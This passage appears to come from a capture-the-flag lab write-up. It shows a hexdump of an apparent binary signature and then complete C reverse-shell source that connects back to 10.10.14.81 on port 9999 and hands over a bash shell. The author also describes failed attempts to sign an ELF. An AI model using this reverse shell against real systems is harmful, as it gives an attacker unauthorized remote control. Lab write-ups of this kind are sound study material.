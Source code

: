 ```sh
  0x00000090 2e636f6d 02146d63 4aa981e1 93a1e448 .com..mcJ......H
  0x000000a0 c5205ff7 9b84e6b6 f50b300b 06096086 . _.......0...`.
  0x000000b0 48016503 04020130 0d06092a 864886f7 H.e....0...*.H..
  0x000000c0 0d010101 05000482 01006a8d 5090e77a ..........j.P..z
  0x000000d0 a22431d3 e629241a c7eec906 dce87592 .$1..)$.......u.
  0x000000e0 c90733b8 5ea5c466 db04a35a 28648853 ..3.^..f...Z(d.S
  0x000000f0 00f2775c fbe983ae 833d2c36 7030985a ..w\.....=,6p0.Z
  0x00000100 b5d9ae28 cfbf75db 8e402955 c9bef8d3 ...(..u..@)U....
  0x00000110 058e6ee1 1eb435bb 30a3056d b85074bc ..n...5.0..m.Pt.
  0x00000120 4e15fc44 0a57e3f6 2f4b5ecd 0e6b222d N..D.W../K^..k"-
  0x00000130 c4039189 2c7ded05 fe45a3e9 c00f0610 ....,}...E......
  0x00000140 f8a653ab f72571aa cbf2ff38 238658d0 ..S..%q....8#.X.
  0x00000150 8dcfba33 1c6d2092 8c01c77d 4e49ea94 ...3.m ....}NI..
  0x00000160 670c9de9 42779e09 67143d81 49209fc1 g...Bw..g.=.I ..
  0x00000170 24005880 04c7cebf d398ec6d 55b50333 $.X........mU..3
  0x00000180 db46f2ab 74e6aa24 e9dc76d2 c9c4183b .F..t..$..v....;
  0x00000190 991bc0f4 762b1c09 1d82317c aab31e88 ....v+....1|....
  0x000001a0 dfc04871 2bb9ac8a 0dbb6cd7 cd6bdcaa ..Hq+.....l..k..
  0x000001b0 c96c2afe faa17944 ebdd7a6e 6f2e91da .l*...yD..zno...
  0x000001c0 5e41e0e6 5ddeec93 47ee              ^A..]...G.
```
I could have used msfvenom here, but it had failed before, so instead I took a C [revshell](https://www.revshells.com/) to compile on the remote box. I could have compiled this locally as well and statically linked everything but did'nt realize I could do that at this time of the step.
```sh
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9999;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.14.81");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/bash", NULL};
    execvp("/bin/bash", argv);

    return 0;       
}
```
I spun my wheels with github copilot for a while, trying to figure out how to sign an ELF. Ultimately I was just led astray using `objcopy` and `openssl`, so I went to sleep and came back to this the next day.

